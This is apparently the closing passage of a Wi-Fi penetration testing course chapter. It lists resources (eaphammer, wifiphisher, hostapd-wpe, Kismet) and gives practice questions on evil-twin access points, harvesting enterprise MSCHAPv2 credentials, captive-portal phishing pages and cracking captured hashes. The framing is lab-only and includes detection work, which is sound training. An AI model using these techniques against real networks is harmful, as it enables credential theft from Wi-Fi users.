- **Hack The Box Academy — wireless / "Wi-Fi Penetration Testing" modules.** Structured coverage of evil twins and enterprise attacks.
- **SensePost MANA & eaphammer documentation / talks.** The original MANA research (Def con 22) and the eaphammer wiki are the authoritative references for KARMA/MANA and the enterprise MSCHAPv2 harvest; run eaphammer's `--cert-wizard` and `--creds` flow in your lab.
- **wifiphisher project docs & GitHub.** The scenario/template system and full flag reference; build a custom `phishing-pages` template branded to your lab SSID.
- **hostapd-wpe on Kali.** Stand up the enterprise twin against your own test 802.1X setup (e.g. a FreeRADIUS + a test client) and practise the `-m 5500` crack of the captured MSCHAPv2.
- **Kismet (blue team).** Run Kismet against your own lab while you attack it — learn to see your own twin, deauth flood, and rogue DHCP so you can recognise them on a defensive engagement.
- **PortSwigger Web Security Academy (for the portal half).** Not Wi-Fi, but the phishing/credential-page and HSTS/cert-warning behaviours you rely on are web skills — the Academy's authentication and HSTS material sharpens the captive-portal craft.

### Practice questions

1. A target enterprise Wi-Fi uses PEAP-MSCHAPv2. You stand up `hostapd-wpe` with a self-signed cert and capture *nothing* from managed laptops but *do* capture from a personal phone. Explain precisely why, and what single client setting accounts for the difference.
2. Your wifiphisher run associates victims and serves the page, but no OS ever auto-pops the captive browser. Give two distinct causes (one DNS-side, one OS-side) and how you'd confirm each.
3. Contrast the naive open evil twin with the airgeddon PSK-verify twin: what does each *prove* about a captured password, and why does the verify variant succeed against a 30-character random PSK where Chapter 3's PMKID attack fails?
4. A network enforces `ieee80211w=2`. Walk through exactly which steps of the Part 11 lab break and which still work, and what an attacker's remaining options are.
5. You need to distinguish, from a single monitor-mode capture, a MANA/KARMA attack from an ordinary busy AP. Which frame type and which anomaly do you filter for, and what would a benign explanation be?
